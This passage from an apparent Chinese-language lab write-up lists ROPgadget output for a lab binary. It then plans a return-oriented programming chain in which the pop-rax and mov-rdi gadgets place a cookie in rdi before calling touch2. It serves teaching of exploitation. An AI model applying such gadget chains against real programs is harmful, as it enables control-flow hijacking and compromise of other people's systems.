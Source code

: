 ```shell
0x0000000000401a4e : mov eax, 0xd208d199 ; ret
0x0000000000401aa5 : mov eax, 0xd220ce8d ; ret
0x0000000000401a68 : mov eax, 0xdb08d189 ; ret
0x0000000000401994 : mov eax, 1 ; ret
0x0000000000401a86 : mov eax, esp ; nop ; ret
0x0000000000401a07 : mov eax, esp ; ret
0x0000000000401a9a : mov eax, esp ; ret 0x8dc3
0x0000000000401a5d : mov eax, esp ; xchg ecx, eax ; ret
0x00000000004019a4 : mov ebx, 0x51878dc3 ; jae 0x401a04 ; nop ; ret
0x00000000004019b3 : mov ebx, 0xc25407c7 ; pop rax ; xchg edx, eax ; ret
0x0000000000401a34 : mov ecx, edx ; cmp cl, cl ; ret
0x0000000000401a69 : mov ecx, edx ; or bl, bl ; ret
0x0000000000401a70 : mov ecx, edx ; xchg ecx, eax ; ret
0x00000000004019b2 : mov edi, 0x5407c7c3 ; ret 0x9258
0x00000000004019c6 : mov edi, eax ; nop ; ret
0x00000000004019a3 : mov edi, eax ; ret
0x0000000000401a20 : mov edx, eax ; add cl, cl ; ret
0x00000000004019dd : mov edx, eax ; nop ; ret
0x0000000000401a42 : mov edx, eax ; test al, al ; ret
0x0000000000401a27 : mov esi, ecx ; cmp al, al ; ret
0x00000000004019ea : mov esi, ecx ; js 0x4019b7 ; ret
0x0000000000401a13 : mov esi, ecx ; nop ; nop ; ret
0x0000000000401a63 : mov esi, ecx ; xchg edx, eax ; ret
0x0000000000401aad : mov rax, rsp ; nop ; ret
0x0000000000401a06 : mov rax, rsp ; ret
0x0000000000401a99 : mov rax, rsp ; ret 0x8dc3
0x0000000000401a5c : mov rax, rsp ; xchg ecx, eax ; ret
0x00000000004019c5 : mov rdi, rax ; nop ; ret
0x00000000004019a2 : mov rdi, rax ; ret
0x00000000004019ab : pop rax ; nop ; ret
0x00000000004019b9 : pop rax ; xchg edx, eax ; ret
0x00000000004019dc : pop rsp ; mov edx, eax ; nop ; ret
0x0000000000401a01 : rol bl, 0x8d ; xchg dword ptr [rcx + 0x48], eax ; mov eax, esp ; ret
0x0000000000401aa9 : rol bl, cl ; mov dword ptr [rdi], 0x90e08948 ; ret
0x0000000000401a7a : rol bl, cl ; mov dword ptr [rdi], 0xc908ce09 ; ret
0x0000000000401a52 : rol bl, cl ; mov eax, 0xc9c4c289 ; ret
0x0000000000401aa3 : rol bl, cl ; mov eax, 0xd220ce8d ; ret
0x0000000000401a50 : ror dword ptr [rax], 1 ; rol bl, cl ; mov eax, 0xc9c4c289 ; ret
0x00000000004019f2 : shl dword ptr [rax], 1 ; fcmovnb st(0), st(3) ; mov eax, 0xc048d189 ; ret
0x0000000000401a84 : xchg dword ptr [rax], ecx ; mov eax, esp ; nop ; ret
0x0000000000401a04 : xchg dword ptr [rcx + 0x48], eax ; mov eax, esp ; ret
0x00000000004019a8 : xchg dword ptr [rcx + 0x73], edx ; pop rax ; nop ; ret
0x0000000000401a3a : xchg eax, ecx ; mov eax, esp ; ret
```
{%endspoiler%}

这里可以看到0x4019ab和0x4019a2处分别是pop和mov指令，并且可以操作rdi，所以可以考虑利用这两处指令完成操作。

梳理调用逻辑，这里需要的是：

* cookie入栈
* 执行pop，cookie存入rax
* 执行mov，cookie存入rdi
* 调用touch2
